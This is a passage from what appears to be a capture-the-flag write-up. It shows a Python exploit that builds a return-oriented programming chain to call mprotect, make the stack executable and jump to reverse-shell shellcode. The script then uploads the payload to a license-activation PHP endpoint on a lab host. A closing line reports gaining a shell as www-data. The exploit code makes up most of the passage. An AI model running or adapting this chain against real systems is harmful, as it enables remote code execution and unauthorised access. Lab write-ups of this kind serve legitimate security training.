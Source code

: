 ```python
pop_rdx = rop.rdx[0]                        # 0xcb1cd   ropper -f libc.so.6 --search "pop rdx; ret"
jmp_rsp = rop.jmp_rsp[0]                    # 0xd431d   ropper -f libsqlite3.so.0.8.6 --search "jmp rsp"

offset = 520

##########################################
#            PAYLOAD CHAIN               #
##########################################
payload = b'A' * offset
#int mprotect(void *addr, size_t len, int prot);
payload += p64(pop_rdi) + p64(stack_base)       # addr = Begin of Stack
payload += p64(pop_rsi) + p64(stack_size)       # len = size of Stack
payload += p64(pop_rdx) + p64(7)                # prot = Permission 7 -> rwx
payload += p64(mprotect)                        # call mprotect
payload += p64(jmp_rsp)                         # jmp rsp
payload += buf                                  # reverse shell

# Save payload to a file
write('payload.txt', payload)

# Upload the payload
test_url = "http://10.10.11.154/activate_license.php"
test_response = requests.post(test_url, files = {"licensefile": payload})
if test_response.ok:
    print("Payload sent successfully!")
    print(test_response.text)
else:
    print("Something went wrong!")
```


## WWW-DATA user
After the binary exploitation successfully done we get a sheel as `www-data`.
![](images/image13.png)
